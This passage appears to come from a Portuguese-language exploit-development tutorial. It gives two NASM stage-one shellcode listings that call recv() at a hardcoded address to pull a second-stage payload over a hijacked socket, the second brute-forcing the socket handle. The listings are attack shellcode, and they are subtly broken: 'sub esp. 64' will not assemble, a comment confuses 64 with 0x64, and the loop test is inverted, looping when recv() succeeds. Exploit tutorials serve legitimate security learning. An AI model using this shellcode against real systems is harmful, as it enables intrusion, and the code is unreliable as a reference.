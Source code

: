 ```nasm
; recv()

sub esp. 64             ; Move o apontador ESP para o nosso buffer inicial evitando sobrescrever nosso shellcode
xor ebx, ebx            ; Zerando EBX
push ebx                ; Push no parametro 'flags' = 0
add bh, 4               ; Tornando EBX = 00000400 = 1024 bytes
push ebx                ; Push do parametro 'len' = 1024 bytes
mov ebx, esp            ; Movendo o apontador ESP para EBX
add ebx, 64             ; Apontando o EBX para o ESP original para torna-lo apontador para nosso estagio 2
push ebx                ; Push no parametro '*buf' = Apontador para ESP+0x64
xor ebx, ebx            ; Zerando EBX
add ebx, 104            ; Tornano EBX = 104, valor do socket handle
push ebx                ; push no parametro 's'
mov eax, 0x40252c90     ; Precisamos mover o valor 0040252c para EAX, mas nao podemos inserir o null byte '0x00'
shr eax, 8              ; Removendo 0x90 do EAX e transformando em 0x0040252c
call eax                ; Cahamdno recv()

```

Tecnicamente preenchemos todos os parâmetros da função recv(), porém temos um problema: o valor do socket é um inteiro criado dinamicamente quando o programa roda.

Ou seja, enconramos o valor 104, mas na próxima execução ele vai mudar. Para passarmos por este problema, podemos fazer um update em nosso script para fazer um bruteforce do valor do socket iniciando em 0.

estagio1.nasm:

```nasm
; recv()

sub esp. 64             ; Move o apontador ESP para o nosso buffer inicial evitando sobrescrever nosso shellcode
xor edi, edi            ; Zerando EDI
socket_loop:            ; Inicio do bruteforce
xor ebx, ebx            ; Zerando EBX
push ebx                ; Push no parametro 'flags' = 0
add bh, 4               ; Tornando EBX = 00000400 = 1024 bytes
push ebx                ; Push do parametro 'len' = 1024 bytes
mov ebx, esp            ; Movendo o apontador ESP para EBX
add ebx, 64             ; Apontando o EBX para o ESP original para torna-lo apontador para nosso estagio 2
push ebx                ; Push no parametro '*buf' = Apontador para ESP+0x64
inc edi                 ; Tornando EDI = EDI + 1
push edi                ; Push no socket handle = EDI + 1
mov eax, 0x40252c90     ; Precisamos mover o valor 0040252c para EAX, mas nao podemos inserir o null byte '0x00'
shr eax, 8              ; Removendo 0x90 do EAX e transformando em 0x0040252c
call eax                ; Cahamdno recv()
test eax, eax           ; Checando se a recv() foi teve sucesso
jnz socket_loop         ; Se a recv() foi mal sucedida, volta para o inicio do loop
```
